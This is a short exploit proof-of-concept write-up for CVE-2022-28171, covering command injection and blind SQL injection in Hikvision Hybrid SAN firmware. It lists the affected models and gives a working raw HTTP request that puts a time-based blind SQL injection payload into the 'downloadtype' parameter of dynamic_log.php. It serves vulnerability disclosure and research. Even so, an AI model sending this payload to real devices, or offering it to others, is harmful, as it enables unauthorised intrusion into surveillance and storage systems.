 # CVE-2022-28171-POC

I originally published this on ExploitDB, which you can find at https://www.exploit-db.com/exploits/51607

### Hikvision Hybrid SAN Ds-a71024 Firmware - Multiple Remote Code Execution

```
# Date: 16  July 2023
# Exploit Author: Thurein Soe
# CVE : CVE-2022-28171
# Reference Link: https://cve.report/CVE-2022-28171
# Vulnerable Versions:
Ds-a71024 Firmware
Ds-a71024 Firmware
Ds-a71048r-cvs Firmware
Ds-a71048 Firmware
Ds-a71072r Firmware
Ds-a71072r Firmware
Ds-a72024 Firmware
Ds-a72024 Firmware
Ds-a72048r-cvs Firmware
Ds-a72072r Firmware
Ds-a80316s Firmware
Ds-a80624s Firmware
Ds-a81016s Firmware
Ds-a82024d Firmware
Ds-a71048r-cvs
Ds-a71024
Ds-a71048
Ds-a71072r
Ds-a80624s
Ds-a82024d
Ds-a80316s
Ds-a81016s
```
### Vendor Description:

Hikvision is a world-leading surveillance manufacturer and supplier of video surveillance and Internet of Things (IoT) equipment for civilian and military purposes. Some Hikvision Hybrid SAN products were vulnerable to multiple remote code execution vulnerabilities such as command injection, Blind SQL injection, HTTP request smuggling, and reflected cross-site scripting. This resulted in remote code execution, which was possible to execute arbitrary operating system commands and more.

### Vulnerability description
 The manual test confirmed that The "downloadtype" parameter was vulnerable to Blind SQL injection and Command Injection.
I created a Python script to automate and enumerate SQL versions as the Application was behind the firewall and block all the requests from SQLmap. 

### Request Body
```
Request Body:
GET /web/log/dynamic_log.php?target=makeMaintainLog&downloadtype='(select*from(select(sleep(10)))a)' HTTP/1.1
Host: X.X.X.X.12:2004
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Connection: close
```
